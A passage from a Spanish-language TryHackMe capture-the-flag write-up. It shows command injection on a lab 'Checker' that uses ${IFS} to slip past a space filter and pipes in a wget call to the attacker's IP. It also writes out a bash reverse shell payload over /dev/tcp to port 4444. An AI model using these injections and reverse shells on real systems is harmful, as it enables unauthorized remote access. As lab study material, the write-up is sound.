 Viendo que el espacio se elimina, voy a utilizar la variable **`${IFS}`**, que se utiliza tanto para definir que caracteres se usan para separar los campos, como para separar 2 campos.

Y voy a intentar descargarme un archivo inventado en mi máquina local desde el **Checker** para ver si se ejecuta el comando.

- Creo un servidor **`HTTP`** con **`Python3`**.

    ```bash
    python3 -m http.server 1234
    ```

- Me descargo un archivo inexistente

    ```bash
    |wget${IFS}http://'Nuestra IP':1234/hola
    ```

![picture](/assets/images/tryhackme/breakm28.png){: w="500" h="300" }

Y cuando lo ejecuto, compruebo en mi máquina local que ha intentado descargarse el archivo inexistente "**hola**", sin éxito.

![picture](/assets/images/tryhackme/breakm29.png)

A continuación la idea es obtener una **`Reverse Shell`**, pero al intentar introducirla no funciona, como antes si que he recibido el intento de descarga del archivo **`hola`**, y puedo usar el pipe **`|`**, voy a crear un **`payload`** con una **`Reverse Shell`**, y ejecutarlo con el comando **`bash`**.

- Payload

    ```bash
    bash -i >& /dev/tcp/'Nuestra IP'/4444 0>&1
    ```

Creamos un servidor **`HTTP`** con **`Python3`** en el directorio donde se encuentre el **`payload`**.
